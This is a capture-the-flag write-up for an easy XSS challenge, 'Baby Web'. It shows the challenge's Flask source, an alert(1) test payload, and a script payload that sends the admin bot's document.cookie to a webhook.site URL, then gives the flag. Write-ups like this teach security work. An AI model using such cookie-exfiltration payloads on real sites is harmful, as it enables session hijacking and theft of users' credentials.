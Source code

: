 ## Baby Web

[dist.zip](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/baby-web/dist.zip)

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/baby-web/chall.png)

> The site has an input field where I can type text such as "hello"

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/baby-web/message.png)

> Note that the url parameter contains the message "hello" that we indicated. Analyze the source code to find out more.

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "GET":
        return render_template('index.html')

    message = request.form.get('message')
    if len(message) == 0:
        flash("Please enter a message")
        return render_template('index.html')

    link = f"/ticket?message={quote(message)}"

    # Admin vists the link here
    visit(BASE_URL, f"{BASE_URL}{link}")

    return redirect(link)
```

> We can see that the message parameter is not properly sanitized and thus is vulnerable to Cross-Site Scripting. We can verify this using thee standard payload `<script>alert(1)</script>`

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/baby-web/xss.png)

```python
def _visit(baseUrl:str, link: str) -> str:
    """Visit the website"""
    with webdriver.Chrome(ChromeDriverManager().install(), options=options) as driver:
        try:
            driver.get(f'{baseUrl}/')
            cookie = {"name": "flag", "value": COOKIE["flag"]}
            driver.add_cookie(cookie)
            driver.get(link)
            return f"Visited {link}"
        except:
            return f"Connection Error: {link}"
```
> From the above code, we know that the flag is stored in the cookie so we can use a webhook site to capture the cookie received. The payload is as follows:

```
<script>var i=new Image;i.src="https://webhook.site/3091ed00-b085-4cdf-9fd7-6b30093e707f?"+document.cookie;</script>
```

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/baby-web/solved.png)

`grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`
